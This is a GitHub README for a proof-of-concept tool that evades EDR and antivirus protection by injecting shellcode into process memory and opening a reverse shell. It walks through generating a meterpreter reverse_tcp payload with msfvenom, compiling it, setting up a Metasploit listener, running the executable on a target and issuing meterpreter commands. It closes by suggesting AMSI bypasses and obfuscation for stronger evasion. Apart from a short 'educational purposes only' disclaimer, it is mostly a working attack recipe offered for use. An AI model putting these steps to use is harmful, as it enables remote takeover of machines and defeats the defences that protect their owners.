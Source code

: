 # EDR-Antivirus-Bypass-to-Gain-Shell-Access

## EDR & Antivirus Bypass to Gain Shell Access

This repository contains a **proof-of-concept (PoC)** for bypassing EDR and antivirus solutions using a memory injection technique. The code executes shellcode that spawns a reverse shell, successfully evading detection by various security mechanisms.

---

## Description

This project demonstrates how to bypass EDR and antivirus protection using Windows API functions such as `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`. The payload is injected directly into the process memory without being detected by security tools, establishing a connection to a remote system for a reverse shell.

> **Disclaimer:** This code is for educational purposes only. Use it responsibly and only in environments where you have explicit permission to test.

---

## Features

- Bypasses standard EDR and antivirus solutions
- Executes shellcode in memory to create a reverse shell
- Utilizes `VirtualAlloc` and `CreateThread` to inject the payload directly into process memory

---

## Requirements

- Windows Operating System (Tested on Windows 10)
- Kali Linux (For reverse shell listener)
- Visual Studio or any C# compiler

---

## Steps to Compile & Run

### 1. Clone the Repository

```bash
https://github.com/murat-exp/EDR-Antivirus-Bypass-to-Gain-Shell-Access.git
cd EDR-Antivirus-Bypass-Shell-Access
```


### 2. Modify Shellcode

Before compiling, ensure that you modify the shellcode to point to your own IP address and port for the reverse shell. You can generate shellcode using `msfvenom:`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f csharp
```

Replace the `byte[] buf` section in Program.cs with the shellcode you just generated.


### 3. Compile the Code

Open the project in Visual Studio, or use the following command to compile the code using the .NET SDK:


```bash
csc Program.cs
```

**Alternatively, you can compile in Release mode for better optimization:


```bash
csc -optimize Program.cs
```


### 4. Start a Listener on Kali

On your Kali Linux machine, start a listener to catch the reverse shell. Use the following commands in Metasploit:


```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
run
```


### 5. Execute the Payload

Transfer the compiled .exe file to the Windows machine. You can execute the file manually or use any other method to run the file:


```bash
Program.exe
```


6. Obtain the Shell

Once the payload is executed on the target machine, you should see a reverse shell session open in your Metasploit console. From there, you can interact with the system:



```bash
meterpreter > sysinfo
meterpreter > shell
```


7. Additional Bypass Techniques

To avoid detection by advanced EDR solutions, consider using techniques like process injection, obfuscation, or AMSI bypasses. This PoC can be extended with these methods for more robust evasion.








